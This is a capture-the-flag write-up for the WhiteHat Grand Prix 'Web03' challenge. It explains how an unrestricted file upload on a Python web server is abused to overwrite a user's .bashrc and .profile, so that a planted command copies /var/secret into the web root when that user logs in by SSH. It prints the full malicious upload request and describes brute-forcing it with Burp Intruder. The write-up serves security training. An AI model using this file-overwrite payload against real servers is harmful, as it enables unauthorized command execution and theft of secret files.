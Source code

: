 Web03
Description: manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. Every 1 minute after service starts, he ssh into server to check /var/secret. Can you get it?  
Note: Player shouldn't Dos web01, you can get source code and run in local  
http://web01.grandprix.whitehatvn.com/  
Solves: A lot 
Points: 100  
Team: OpenToAll  

--------------------------------------

This... was a frustrating challenge. It involves racing against every other team  
for control of a file. The short description is we're presented with a python  
SimpleHTTPServer that also supports an upload. You can upload any file with the key  
'file':

![upload](screenshots/upload.png)

The description tells us that a user "manhndd" SSH's in every 2 minutes. When a user
connects over SSH, typically they're using bash as their shell and will load the
files ~/.profile and ~/.bashrc on connect. We are able to overwrite these two files by changing  
the filename of the upload:  

```http
POST /SimpleHTTPServerWithUpload.py HTTP/1.1
Host: web01.grandprix.whitehatvn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://files.fm/
X-File-Upload: uploadingfiles
Content-Length: 228
Content-Type: multipart/form-data; boundary=---------------------------158661620315800
Origin: https://files.fm
Connection: close

-----------------------------158661620315800
Content-Disposition: form-data; name="file"; filename="/home/manhndd/.bashrc"
Content-Type: text/html
cp /var/secret | /opt/dogs

-----------------------------158661620315800
```

![bashrc](screenshots/bashrc.png)

The issue is that every other team is going to be trying to stomp on these files.  
I put my requests into Burp Intruder and had it constantly stomp on ~/.profile  
and ~/.bashrc until the file /var/secret got copied into /opt (the root of the webserver).  
I don't have a copy of the flag anymore, but eventually a file named "dogs" appeared
in the index and the flag was WhiteHat{SHA1(file_contents)}
